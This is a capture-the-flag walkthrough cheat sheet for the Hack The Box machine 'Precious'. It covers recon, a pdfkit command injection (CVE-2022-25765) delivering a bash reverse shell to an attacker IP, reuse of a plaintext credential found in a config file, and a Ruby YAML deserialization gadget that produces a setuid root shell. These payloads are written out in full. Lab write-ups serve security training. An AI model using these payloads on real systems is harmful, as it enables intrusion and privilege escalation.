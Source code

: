 Here’s a complete Markdown-formatted command and exploitation guide for **HTB: Precious**, organized by phase and with clear explanations 🧠💻

---

# 🧵 HTB: Precious – Command Cheat Sheet

## 🔍 Recon Phase

### Nmap Full Port + Version Scan
```bash
nmap -p- --min-rate 10000 10.10.11.189
nmap -p 22,80 -sCV 10.10.11.189
```

### Add Host Entry
```bash
echo "10.10.11.189 precious.htb" | sudo tee -a /etc/hosts
```

### [FFUF](HTTP) Subdomain Fuzzing
```bash
ffuf -u http://10.10.11.189 -H "Host: FUZZ.precious.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
```

### Feroxbuster Directory Brute Force
```bash
feroxbuster -u http://precious.htb
```

---

## 🖨️ Exploiting PDF Generation (Command Injection)

### Exiftool Analysis
```bash
exiftool output.pdf
# -> Shows "Generated by pdfkit v0.8.6"
```

### Vulnerability
- `pdfkit v0.8.6` vulnerable to command injection (CVE-2022-25765)

### POC to Leak `id`
```bash
http://10.10.14.6/?name=%20`id`
```

### Reverse Shell (Bash)
```bash
# Listener
nc -lnvp 443

# Payload (submit in URL field of form)
http://10.10.14.6/?name=%20`bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"`
```

### Shell Upgrade
```bash
script /dev/null -c bash
# ^Z
stty raw -echo; fg
reset
# Terminal type? screen
```

---

## 👤 Escalating to User `henry`

### Look for Creds in `.bundle`
```bash
cat ~/.bundle/config
# => username: henry, password: Q3c1AqGHtoI0aXAYFH
```

### `su` to Henry
```bash
su - henry
# OR
sshpass -p 'Q3c1AqGHtoI0aXAYFH' ssh henry@precious.htb
```

---

## ⚙️ Privilege Escalation via Unsafe YAML

### Check Sudo Access
```bash
sudo -l
# => (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

### Vulnerable Line
```ruby
YAML.load(File.read("dependencies.yml"))
```

### Create Exploit Payload
```yaml
# dependencies.yml
---
- !ruby/object:Gem::Installer
  i: x
- !ruby/object:Gem::SpecFetcher
  i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
        read: 0
        header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
        socket: &1 !ruby/object:Gem::RequestSet
          sets: !ruby/object:Net::WriteAdapter
            socket: !ruby/module 'Kernel'
            method_id: :system
          git_set: cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash
        method_id: :resolve
```

### Run Exploit
```bash
cd /dev/shm
sudo ruby /opt/update_dependencies.rb
```

### Get Root Shell
```bash
/tmp/rootbash -p
id
cat /root/root.txt
```

---

## 🔬 Beyond Root – PDFKit Debug + Local Access Fix

### Problem
- Server fails to fetch internal URLs like `http://127.0.0.1` or `http://precious.htb`.

### Fix
```bash
echo "127.0.0.1 precious.htb" | sudo tee -a /etc/hosts
```